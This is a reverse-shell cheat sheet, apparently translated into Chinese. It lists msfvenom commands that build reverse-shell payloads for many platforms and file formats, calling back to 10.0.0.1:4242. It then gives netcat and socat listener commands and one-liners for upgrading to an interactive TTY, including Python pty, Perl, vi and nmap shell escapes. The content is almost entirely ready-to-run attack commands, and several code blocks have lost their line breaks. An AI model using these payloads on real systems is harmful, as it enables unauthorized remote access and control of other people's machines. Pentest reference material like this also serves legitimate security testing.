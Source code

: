 ### 其他

```powershell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f exe > shell.exe$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war$ msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py$ msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh$ msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## 生成 TTY 外壳

为了捕获shell，您需要监听所需的端口。`rlwrap`将增强外壳，使您可以使用`[CTRL] + [L]`.

```powershell
rlwrap nc 10.0.0.1 4242rlwrap -r -f . nc 10.0.0.1 4242//-f . rlwrap使用当前历史文件作为完成列表//-r 将输入和输出中看到的所有单词放在完成列表中
```

Sometimes, you want to access shortcuts, su, nano and autocomplete in a partially tty shell.

OhMyZSH 可能会破解这个技巧，`sh`推荐一个简单的

> > 这里的主要问题是 zsh 不像 bash 或 sh 那样处理 stty 命令。[...] stty raw -echo；fg[...] 如果你尝试将它作为两个分开的命令来执行，一旦出现提示你执行 fg 命令，你的 -echo 命令已经失去了它的作用

```powershell
ctrl+zecho $TERM && tput lines && tput cols# for bashstty raw -echofg# for zshstty raw -echo; fgresetexport SHELL=bashexport TERM=xterm-256colorstty rows <num> columns <cols>
```

或者使用`socat`binary 来获得一个完全 tty 的反向 shell

```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

从解释器生成 TTY shell

```powershell
/bin/sh -ipython3 -c 'import pty; pty.spawn("/bin/sh")'python3 -c "__import__('pty').spawn('/bin/bash')"python3 -c "__import__('subprocess').call(['/bin/bash'])"perl -e 'exec "/bin/sh";'perl: exec "/bin/sh";perl -e 'print `/bin/bash`'ruby: exec "/bin/sh"lua: os.execute('/bin/sh')
```

- vi: `:!bash`
- vi: `:set shell=/bin/bash:shell`
- nmap: `!sh`
- mysql: `! bash`

替代 TTY 方法

```
www-data@debian:/dev/shm$ su - usersu: must be run from a terminalwww-data@debian:/dev/shm$ /usr/bin/script -qc /bin/bash /dev/nullwww-data@debian:/dev/shm$ su - userPassword: P4ssW0rDuser@debian:~$ 
```
